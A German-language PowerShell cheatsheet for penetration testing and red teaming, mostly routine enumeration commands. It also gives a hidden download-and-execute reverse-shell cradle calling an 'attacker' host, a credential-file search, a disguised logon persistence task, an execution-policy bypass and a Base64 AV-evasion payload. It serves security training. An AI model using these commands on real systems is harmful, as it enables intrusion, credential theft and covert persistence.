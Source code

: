 # ⚡ PowerShell Cheatsheet for Cybersecurity & Offensive Ops

## Ziel dieser Datei

Dieses Cheatsheet bietet eine schnelle Referenz für den **Einsatz von PowerShell** in Penetration Tests, Incident Response, Red Teaming und OSINT. Es enthält **sicherheitsrelevante, administrative und offensive Befehle**, gegliedert nach Szenarien.

> Hinweis: PowerShell ist ein äußerst mächtiges Werkzeug – bitte **nur in autorisierten Umgebungen** einsetzen!



## Inhaltsverzeichnis

- [Systeminformationen](#systeminformationen)
- [Benutzer & Gruppen](#benutzer--gruppen)
- [Netzwerk- & Firewallinfos](#netzwerk---firewallinfos)
- [Dateisystem und Suche](#dateisystem-und-suche)
- [Prozesse & Dienste](#prozesse--dienste)
- [PowerShell Execution Policies](#execution-policies--umgehung)
- [Datei-Download & Remote Access](#download--remote-access)
- [PowerShell Recon & Enumeration](#powershell-recon--enum)
- [PowerShell als Angriffsplattform](#powershell-für-angreifer)
- [Persistenz via PowerShell](#persistenz-via-powershell)
- [Antivirus Evasion](#av-evasion-basics)
- [Nützliche Tools](#nützliche-module--projekte)
- [Verknüpfte Dateien im Repository](#verknüpfte-dateien-im-repository)
- [Haftungsausschluss](#haftungsausschluss)



## Systeminformationen

```powershell
Get-ComputerInfo
systeminfo
hostname
Get-WmiObject -Class Win32_OperatingSystem
```



## Benutzer & Gruppen
```powershell
whoami /all
Get-LocalUser
net user
net localgroup administrators
Get-LocalGroupMember -Group "Administrators"
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Netzwerk- & Firewallinfos

```powershell
ipconfig /all
Get-NetIPConfiguration
Get-NetTCPConnection | Where-Object { $_.State -eq "Listen" }
Get-NetFirewallProfile
Get-NetFirewallRule
Test-NetConnection -ComputerName <IP> -Port <Port>
```



## Dateisystem und Suche

```powershell
Get-ChildItem -Recurse -Filter *.ps1
dir -Recurse -Filter *password*
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```



## Prozesse & Dienste

```powershell
Get-Process
tasklist
Get-Service
Get-WmiObject win32_service | Where { $_.State -eq "Running" }
```



## Execution Policies & Umgehung

```powershell
Get-ExecutionPolicy
Set-ExecutionPolicy Bypass -Scope Process
powershell.exe -ExecutionPolicy Bypass -File script.ps1
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Download & Remote Access
### Datei herunterladen

```powershell
Invoke-WebRequest "http://ip/script.ps1" -OutFile "script.ps1"
```

### Remote Shell (reverse)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/nc.ps1')
```



## PowerShell Recon & Enum

### Passwort-Reste / Credentials

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include *pass*,*cred*,*vnc* | Select-String -Pattern "password"
```

### Benutzerkontext

```powershell
Get-CimInstance Win32_LoggedOnUser
```

### Scheduled Tasks

```powershell
Get-ScheduledTask | Where-Object {$_.TaskPath -like "*"}
```

## PowerShell für Angreifer

| Tool                      | Beschreibung                             |
| ------------------------- | ---------------------------------------- |
| `PowerView.ps1`           | AD-Recon, Trust-Mapping                  |
| `PowerUp.ps1`             | Local Privilege Escalation Checks        |
| `Invoke-Mimikatz`         | Credential Dumping (⚠️ AV blockiert oft)  |
| `SharpHound` (BloodHound) | AD Graph-Enum                            |
| `Empire`                  | PowerShell RAT Framework                 |
| `Powersploit`             | Offensive Module-Sammlung                |

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz via PowerShell
```powershell
# Persistenz per Scheduled Task
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -File C:\evil.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Updater" -Action $action -Trigger $trigger
```

 

## AV-Evasion Basics (nur zu Lernzwecken!)
```powershell
# Base64-Encoding Payloads
$bytes = [System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object Net.WebClient).DownloadString('http://<ip>/payload.ps1')")
$encoded = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encoded
```



## Nützliche Module & Projekte

| Tool / Modul   | Link                                                                                                                                     |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| PowerSploit    | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)                                         |
| Nishang        | [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)                                                         |
| PowerUp        | [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) |
| Empire         | [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)                                                           |
| PowerSharpPack | [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)                                     |



## Verknüpfte Dateien im Repository
- [windows_privilege_escalation.md](/04-os-enumeration/windows_privilege_escalation.md)
- [linux_privilege_escalation.md](/04-os-enumeration/linux_privilege_escalation.md)
- [red_team_tools.md](/05-red-teaming/red_team_tools.md)


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
